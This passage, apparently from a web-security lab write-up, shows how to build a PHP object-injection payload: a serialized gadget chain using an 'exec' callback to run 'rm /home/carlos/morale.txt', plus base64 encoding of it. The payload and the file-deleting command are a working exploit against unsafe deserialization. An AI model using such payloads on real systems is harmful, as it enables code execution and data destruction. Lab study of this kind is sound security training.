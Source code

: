 the output will be :

```php
O:14:"CustomTemplate":2:{s:33:"CustomTemplatedefault_desc_type";s:26:"rm /home/carlos/morale.txt";s:20:"CustomTemplatedesc";O:10:"DefaultMap":1:{s:20:"DefaultMapcallback";s:4:"exec";}}
```

it will not work , When working with serialized PHP objects, the serialized data is represented as a binary format that may include null characters. Copying and pasting the cleartext part of the serialized object can introduce encoding issues and potentially modify the content.

To accurately represent the serialized object, it's recommended to work with the binary data directly rather than copying and pasting the cleartext representation. This ensures that the serialized object is preserved without unintended modifications.

If you need to share or store the serialized object, it's best to handle it as binary data or use appropriate encoding techniques, such as base64 encoding, to avoid any data corruption during transmission or storage.

so we will add this line to the end of the script :

```php
$base64Encoded = base64_encode($ser);
echo $base64Encoded
```

the output will be: `TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjI6e3M6MzM6IgBDdXN0b21UZW1wbGF0ZQBkZWZhdWx0X2Rlc2NfdHlwZSI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO3M6MjA6IgBDdXN0b21UZW1wbGF0ZQBkZXNjIjtPOjEwOiJEZWZhdWx0TWFwIjoxOntzOjIwOiIARGVmYXVsdE1hcABjYWxsYmFjayI7czo0OiJleGVjIjt9fQ==`

request :

![request.png](WEB%20EXPLOITATION/request.png)

response: you will receive an error in the response but the lab is actually solved.

![error.png](WEB%20EXPLOITATION/error.png)

solved :

![solved.png](WEB%20EXPLOITATION/solved.png)
